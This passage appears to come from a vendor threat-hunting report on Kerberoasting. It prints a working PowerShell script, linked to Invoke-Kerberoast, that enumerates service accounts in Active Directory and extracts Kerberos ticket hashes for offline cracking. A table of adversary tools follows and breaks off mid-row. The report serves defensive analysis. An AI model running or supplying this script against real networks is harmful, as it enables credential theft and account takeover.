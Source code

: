 The following is an expanded version of the script above, which was determined to be associated with the Invoke\-
Kerberoast.ps1 PowerShell script. The Kerberoasting activity below involves Active Directory being queried to 
request the username and SPN associated with accounts that have an SPN set. The $TicketHexStream variable is 
storing the hexadecimal value of the Kerberos service ticket, which is then processed to extract a hash that can be 
used for offline password cracking. 
$Null \= \[Reflection.Assembly]::LoadWithPartialName( 'System.IdentityModel' ); $search 
\= New\-Object DirectoryServices.DirectorySearcher( \[ADSI]'' ); $search.filter \= 
'(\&(servicePrincipalName\=\*)(objectCategory\=user))'; $results \= $search.Findall(); 
foreach ( $results in $results ) { $u \= $results.GetDirectoryEntry(); $samAccountName \= 
$u.samAccountName; foreach ( $s in $u.servicePrincipalName ) { $Ticket \= $null; try { $Ticket 
\= New\-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken \-ArgumentList $s; 
} catch \[System.Management.Automation.MethodInvocationException] {} if ( $Ticket \-ne $null 
) { $TicketByteStream \= $Ticket.GetRequest(); if ( $TicketByteStream ) { $TicketHexStream 
\= \[System.BitConverter]::ToString( $TicketByteStream ) \-replace '\-'; \[System.Collections.
ArrayList]$Parts \= ( $TicketHexStream \-replace '^()04820()', '$2' ) \-Split 'A48201'; 
$Parts.RemoveAt( $Parts.Count \- 1 ); $Hash \= $Parts \-join 'A48201'; try { $Hash \= $Hash.Insert( 
32, '$' ); $HashFormat \= '$krb5tgs$23$\*' \+ $samAccountName \+ '' \+ $s \+ '\*$' \+ $Hash; Write\-Host 
$HashFormat; break; } catch \[System.Management.Automation.MethodInvocationException] {} } } } }
14
 2023 CrowdStrike, Inc. All rights reserved. 
NOWHERE TO HIDE
CROWDSTRIKE 2023 THREAT HUNTING REPORT
Top Five Tools Used in Kerberoasting Attacks
The following table lists in order the top five tools Falcon OverWatch observed adversaries use for Kerberoasting 
attacks over the past year.
Tool
What It Does
How It Works
Rubeus
Rubeus is a C\# tool that allows an adversary to interact 
with the Kerberos authentication mechanism.
Adversaries use this tool to perform attacks such 
as ticket manipulation, password brute\-forcing, 
Kerberoasting, and Golden Ticket and Silver Ticket 
attacks.
PowerSploit
PowerSploit is an exploit framework that contains various 
modules, including Invoke\-Kerberoast, a module designed 
to automate Kerberoasting functions.
Adversaries use this tool to automate the process of 
SPN enumeration, ticket manipulation and password 
cracking.
BloodHound
SharpHound
BloodHound is a web\-based tool that can be used 
to perform reconnaissance on Active Directory 
environments and identify attack paths that can be used in 
the context of a Kerberoasting attack. 
SharpHound is a PowerShell\-based tool that can be used 
to enumerate Active Directory environments and retrieve 
data that can be visualized within BloodHound. 
Adversaries typically use these tools together to 
understand and visualize a targets Active Directory 
objects and environment, and then generate data 
that can be used to identify potential attack paths and 
privilege escalation opportunities.
Impacket
Impacket is a toolset of Python\-based utilities that can 